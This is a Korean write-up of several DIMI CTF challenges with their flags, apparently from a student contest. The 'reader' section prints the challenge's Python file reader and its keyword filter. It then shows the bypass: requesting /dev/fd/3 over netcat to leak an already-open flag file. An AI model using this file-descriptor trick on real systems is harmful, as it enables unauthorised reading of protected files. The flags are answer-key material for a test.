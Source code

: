 이 코드대로 실행하면 `DIM{Go_G0_GO_go_g0_gO_r3versing!p` 이렇게 나오는데 조금만 수정해주고 제출하였다.

**FLAG : `DIMI{Go_G0_GO_go_g0_gO_r3versing!}`**



# Misc

### Mic Check - 119 solver

**FLAG : `DIMI{A-A-A-A---Mic-Check!}`**

### dimi-contract - 28 solver

음수 체크를 안해서 그냥 계속 돈을 늘릴 수 있다.

**FLAG : `DIMI{m1nu5_b4nk_cUrR:p7}`**

### reader - 10 solver

nc (`nc ctf.dimigo.hs.kr 1312`)와 python 파일이 주어졌다. 

```python
import sys

def send(data, end='\n'):
    sys.stdout.write(data + end)
    sys.stdout.flush()

def read():
    return raw_input()

def filtering(filename):
    filter = ['flag', 'proc', 'self', 'etc', 'tmp', 'home', '~', '.', '*', '?', '\\', 'x']
    for i in filter:
        if i in filename:
            send("Filtered!")
            sys.exit(-1)


if __name__ == '__main__':
    flag = open('flag', 'r')
    send("You can't read flag")
    send("But you can read file without filter XD")
    send("Filename :> ", end='')
    filename = read()
    filtering(filename)
    try:
        f = open(filename, 'r')
        send(f.read())
    except:
        send("No such file")
```

0,1,2을 제외하고 다른 파일을 반복해서 열고 닫으면 fd로 3을 반복해서 얻게 된다고  한다.

payload = `/dev/fd/3`

```
$ nc ctf.dimigo.hs.kr 1312
You can't read flag
But you can read file without filter XD
Filename :> /dev/fd/3
DIMI{d3v_fd_3_plz_Cl0s3_F:D!}
```

**FLAG : `DIMI{d3v_fd_3_plz_Cl0s3_F:D!}`**

